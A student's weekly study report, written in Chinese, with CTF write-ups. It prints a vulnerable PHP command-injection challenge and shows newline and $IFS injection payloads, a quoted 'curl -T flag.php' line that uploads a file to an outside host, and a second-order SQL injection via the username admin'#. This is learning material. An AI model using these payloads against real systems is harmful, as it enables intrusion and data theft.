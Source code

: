 汇报人：黄昱卓<br />时间：10月29号
<a name="Wyw8T"></a>
## 本周内容：
1.完成比赛的欠的writeup<br />2.继续学习php<br />3.学习修补了文件上传漏洞<br />4.刚接触sql
<a name="FHNVN"></a>
## 成果展示：
<a name="IeC9d"></a>
## 1.num!
```php
<?php
  // error_reporting(E_ALL || ~E_NOTICE);
  highlight_file('./yun.php');
function strreplace($str){
  $str = str_replace('`','',$str);
  $str = str_replace(';','',$str);
  $str = str_replace('|','',$str);
  $str = str_replace('&','',$str);
  $str = str_replace('>','',$str);
  $str = str_replace(')','',$str);
  $str = str_replace('(','',$str);
  $str = str_replace(')','',$str);
  $str = str_replace('{','',$str);
  $str = str_replace('}','',$str);
  $str = str_replace('%','',$str);
  $str = str_replace('#','',$str);
  $str = str_replace('!','',$str);
  $str = str_replace('?','',$str);
  $str = str_replace('@','',$str);
  $str = str_replace('+','',$str);
  return $str;
}
if($_GET['num']<>""){

  $num = $_GET['num'];
  if(strstr($num,'1')){
    die("Sorry");
  }elseif($num <> 1){
    echo "Try to num = 1";
  }
  if($num == 1 ){
    echo "what you want!"."</br>";
    $cmd=trim($_GET['cmd']);
    $cmd=strreplace($cmd);
    var_dump("curl$cmd/flag.php");
    system("curl$cmd/flag.php");
  }
}else{echo "It Works!why not ask yun.php?";}
?> 
```
首先利用php的0.99999999999999999999999999会溢出到1<br />然后后面是一个并行执行的绕过<br />我们用%0a绕过,注意%检测不检测url编码

![QQ截图20231022124848.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698155492069-4a257e9f-0635-4b11-a736-07d9b88860f1.png#averageHue=%23fbfbfb&clientId=u03b559ec-9ea7-4&from=drop&height=773&id=u3fcc7ce6&originHeight=1551&originWidth=2571&originalType=binary&ratio=1&rotation=0&showTitle=false&size=171373&status=done&style=none&taskId=uef5e0dbb-a230-466b-ad18-feb4d7615c6&title=&width=1282)<br />[http://121.41.166.172:81/?num=0.9999999999999999999&cmd=$IFS$9%20%0a%20cat%20.](http://121.41.166.172:81/?num=0.9999999999999999999&cmd=$IFS$9%20%0a%20cat%20.)<br />这题有个bug就是yun.php传参不能执行，而在根目录传参可以<br />网上有第二种解法<br />http://106.75.32.87:16888/index.php?num=0.99999999999999999999999999999999999&cmd=$IFS-T flag.php -a http://xxxx:xx<br /> 利用curl -T可以上传文件，利用这个上传flag<br />2.sql入门
<a name="sD0uh"></a>
## 2.Sql-injection2
简单的sql<br />是二次注入类题目，万能密码试了用不了<br />先注册admin'#<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698156812421-158470f7-e8fb-469b-98fd-0100a8f465cb.png#averageHue=%2302fdfd&clientId=u03b559ec-9ea7-4&from=paste&height=594&id=u2e937009&originHeight=594&originWidth=821&originalType=binary&ratio=1&rotation=0&showTitle=false&size=42606&status=done&style=none&taskId=u7d5ca086-9c80-41f5-99e6-d0c8061c037&title=&width=821)这样应该就闭合了<br />重新登陆试试![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698156872027-d3676565-3226-4930-9586-b13989c4ccfa.png#averageHue=%2302f9f9&clientId=u03b559ec-9ea7-4&from=paste&height=174&id=u23deddda&originHeight=174&originWidth=1072&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26959&status=done&style=none&taskId=u62da0239-9008-430b-946b-daf57e11978&title=&width=1072)<br />查看cookies：没有<br />但是在请求头里面有<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1698156973103-c4a5113b-4377-47a7-a9bc-2319be092be3.png#averageHue=%232d2d2d&clientId=u03b559ec-9ea7-4&from=paste&height=432&id=ue6e851c3&originHeight=432&originWidth=861&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36010&status=done&style=none&taskId=ue47ec6a5-d126-4e51-90df-307bf0809ea&title=&width=861)<br />原理是利用sql语句的闭合和半闭合<br />可以插入自定义的附加信息，或者是改变原有账户密码
<a name="i3tMQ"></a>
## 心得：
这周干的事情不多，时间忙在了把vps整好和研究怎么用docker搭建靶场上，做了做极客大挑战，下周目标是把php的其他内容再搞一搞，做做极客大挑战
